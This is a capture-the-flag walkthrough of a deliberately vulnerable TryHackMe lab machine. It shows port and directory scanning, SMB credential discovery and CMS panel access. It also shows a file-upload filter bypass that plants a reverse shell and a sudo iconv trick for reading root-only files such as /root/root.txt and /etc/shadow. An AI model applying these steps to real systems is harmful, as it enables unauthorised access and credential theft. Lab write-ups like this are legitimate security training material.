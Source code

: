 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . Tech_Supp0rt: 1
# DESCRIPTION       . Hack into the scammer's under-development website to foil their plans.
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/techsupp0rt1
```

```
sudo nmap -sSVC -T5 -p- 10.10.49.184 -oN tech
```

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 108af572d7f97e14a5c54f9e978b3d58 (RSA)
|   256 7f10f557413c71dbb55bdb75c976305c (ECDSA)
|_  256 6b4c23506f36007ca67c1173c1a8600c (ED25519)

80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-12-19T14:22:51
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-12-19T19:52:50+05:30
|_clock-skew: mean: -1h49m59s, deviation: 3h10m30s, median: 0s
```

#### PORT 80

- The site defaults to the apache default site and the source code doesn't reveal anything useful.

- I decided to fuzz around a bit and found the following

```
fuff -u http://10.10.49.184/FUZZ -w /usr/share/wordlists/dirb/common.txt -t 100
```

```
phpinfo.php             [Status: 200, Size: 94963, Words: 4707, Lines: 1165]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
test                    [Status: 301, Size: 311, Words: 20, Lines: 10]
wordpress               [Status: 301, Size: 316, Words: 20, Lines: 10]
```

- `/test` is just a scammer-like website replica of microsoft.com that has a lot of popups and flashes on the screen.

- The source code did not reveal anything of interest, and fuzzing it further yield no result. 

- Fuzzing `/wordpress` directory on the other hand, reveals the existence of `wp-admin`, `wp-content`, `wp-include` and `xmlrpc.php` pages.

- I tried bruteforcing for the `admin` user but it didn't work. So I decided to look into ports 139 and 445 for now.

#### PORTS 139 & 445

- Using `smbclient -L 10.10.49.184` reveals the `websvr` share. 
- We can access it using `smbclient \\\\10.10.49.184\websvr` 

- The share holds the `enter.txt` file which reveals the following information

```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:{REDACTED} [cooked with magical formula]
Wordpress creds
|->
```

- The wordpress credentials are missing, and the ones for subrion aren't working for either SSH or Wordpress.

- Alright. So we know there should be an endpoint called `subrion`. 


#### FOOTHOLD

- If we navigate to `http://10.10.49.184/subrion` we get a `timed out` with the address `http://10.0.2.15/subrion/subrion/`. 

- I decided to turn on burp suite and take a look around. The initial request is the one below, and, if we forward this, we end up with the second request, which is invalid, as the second directory does not exist.

```
GET /subrion HTTP/1.1
Host: 10.10.49.184
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: INTELLI_06c8042c3d=738fi7fgbi3ntave916q9dtf7i
Connection: close
```

```
GET /subrion/subrion/ HTTP/1.1
Host: 10.0.2.15
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
```

- However, after some googling, I found [this](https://github.com/intelliants/subrion). Subrion is a PHP CMS, and, as we can see in the repository, should have `robots.txt`.

- I reloaded the page so I can capture the first request again and added `/robots.txt` after `/subrion`.

```
GET /subrion/robots.txt HTTP/1.1
Host: 10.10.49.184
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: INTELLI_06c8042c3d=738fi7fgbi3ntave916q9dtf7i
Connection: close
```

- If we redirect this, then we're getting shown the content of `/robots.txt` file.

```
User-agent: *
Disallow: /backup/
Disallow: /cron/?
Disallow: /front/
Disallow: /install/
Disallow: /panel/
Disallow: /tmp/
Disallow: /updates/
```

- Subrion login panel can be accessed by modifying the `GET request` to `GET /subrion/panel/`.

- The hash found in the `enter.txt` file (in SMB share) can be decoded using the following sequence: `From Base58` -> `From Base32` -> `From Base64`. 

- Alternatively, you can use the `Magic` formula on [cyberchef](https://cyberchef.org/#recipe=From_Base58('123456789ABCDEFGHJKLMNPQRSTUVWXYZabcdefghijkmnopqrstuvwxyz',true)From_Base32('A-Z2-7%3D',true)From_Base64('A-Za-z0-9%2B/%3D',true,false)&input=N3NLdm50WGRQRUpheGF6Y2U5UFhpMjR6YUZyTGlLV0Nr)

- I spent a while looking around the CMS to see what I can do. 

- As a side note, I completed the second requirement on the scammer's To-Do list. We can "fix" the `/subrion` directory by going to `System -> System` and setting the `Site URL` to `http://machine_ip/subrion`. 

- This will help us too, since we can use a regular browser and skip modifying requests if we want to access the panel later.

- Anyway. I found the `Content -> Uploads` page. I tried uploading the `enter.txt` file and, when I opened it, I was redirected to `/uploads/enter.txt`.

- So I tried uploading a reverse shell called `shell.php`, and then I went to `/uploads/shell.php`. However, I got `Forbidden. You don't have permission to access this resource.`

- This made me think that maybe this is a filter for `.php` files to avoid exactly this, uploading malicious files. So I've changed the file extension to `.phar` and uploaded it using the same method.

- This time, going to `/uploads/shell.phar` allows us to catch a revese shell (assuming we already have the listener running) as `www-data`. 

- The first thing I did after checking the basics (SUID, writable paths, capabilities, home directories, cron jobs, etc) was to check the `wp-config.php` file located in `/var/www/html/wordpress` 

```
/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'I{redacted}!' );
```

- I tried using these credentials for `mysql` in order to dump the `wp_users` table, but I kept getting `bash: !123: event not found` and I assumed this was because my reverse shell stabilisation is a bit bugged this time.

- Anyway, before googling to find a fix for the problem, I took a look at `/etc/passwd` and I was that the user `support` is not even created on the system, so I tried the password with `scamsite` user.

- It worked and upon checking `sudo -l` for `scamsite`, I noticed that this user has access to run `/usr/bin/iconv` as sudo, which, according to GTFObins, allows us to read from files with higher privileges.

```
LFILE=/root/root.txt

sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

- You can techinically read `/etc/shadow` to get the root hash and try to crack that, but I assume it's not the intended way so it probably would take a lot of time.

